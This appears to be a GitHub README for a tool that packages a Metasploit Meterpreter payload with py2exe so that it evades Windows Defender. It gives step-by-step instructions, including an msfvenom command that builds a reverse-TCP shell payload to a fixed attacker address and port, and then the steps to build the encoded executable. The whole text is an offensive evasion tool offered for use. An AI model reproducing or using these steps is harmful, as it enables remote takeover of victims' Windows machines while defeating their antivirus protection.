 ## AV bypass generator for py2exe

This tool was written to generate .py files for compilation into an .exe file using py2exe. 
Testing has shown that meterpreter coded in this way successfully bypasses static and dynamic analysis of windows defender.
For build the .exe file, you need a Windows machine with Python 2.7 installed and the py2exe module.
Based on [pymemimporter](https://github.com/n1nj4sec/pymemimporter) that allows you to import any .pyd from memory with only pure python code (no .pyd)!

**Instruction**
- Download [python 2.7](https://www.python.org/download/releases/2.7/ )
- Download [py2exe for python 2.7](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download)
- Clone this repository: `git clone https://github.com/n0a/meterpreter-av-bypass`
- Make a payload: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.180 LPORT=4433 -f exe > shell.exe`
- Generate build files: `./gen.sh shell.exe`
- Copy files from shell direcory to C:\Python27 on Windows machine.
- Run `make.bat`
- Your encoded payload in dist/shell.exe

**Для русскоязычной аудитории:** [**https://n0a.pw/meterpreter-av-bypass**](https://n0a.pw/meterpreter-av-bypass)